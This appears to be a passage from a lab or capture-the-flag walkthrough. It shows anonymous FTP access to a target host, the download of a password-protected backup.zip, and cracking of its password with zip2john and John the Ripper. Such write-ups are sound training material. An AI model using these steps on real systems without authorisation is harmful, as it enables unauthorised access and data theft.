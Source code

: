 ## Foothold

### 21 - ftp

- download a bak file

```bash
$ ftp $IP
Connected to 10.129.103.216.
220 (vsFTPd 3.0.3)
Name (10.129.103.216:qwe): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||10013|)
150 Here comes the directory listing.
-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
226 Directory send OK.
ftp> binary
200 Switching to Binary mode.
ftp> get backup.zip
local: backup.zip remote: backup.zip
229 Entering Extended Passive Mode (|||10208|)
150 Opening BINARY mode data connection for backup.zip (2533 bytes).
100% |************************************************************************|  2533        1.97 MiB/s    00:00 ETA
226 Transfer complete.
2533 bytes received in 00:00 (8.90 KiB/s)
```

- john to crack zip file

```bash
$ unzip backup.zip
Archive:  backup.zip
[backup.zip] index.php password:
   skipping: index.php               incorrect password
   skipping: style.css               incorrect password

$ zip2john backup.zip > hash
ver 2.0 efh 5455 efh 7875 backup.zip/index.php PKZIP Encr: TS_chk, cmplen=1201, decmplen=2594, crc=3A41AE06 ts=5722 cs=5722 type=8
ver 2.0 efh 5455 efh 7875 backup.zip/style.css PKZIP Encr: TS_chk, cmplen=986, decmplen=3274, crc=1B1CCD6A ts=989A cs=989a type=8
NOTE: It is assumed that all files in each archive have the same password.
If that is not the case, the hash may be uncrackable. To avoid this, use
option -o to pick a file at a time.

$ john hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
741852963        (backup.zip)
1g 0:00:00:00 DONE 2/3 (2023-11-22 01:51) 33.33g/s 2560Kp/s 2560Kc/s 2560KC/s 123456..ferrises
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
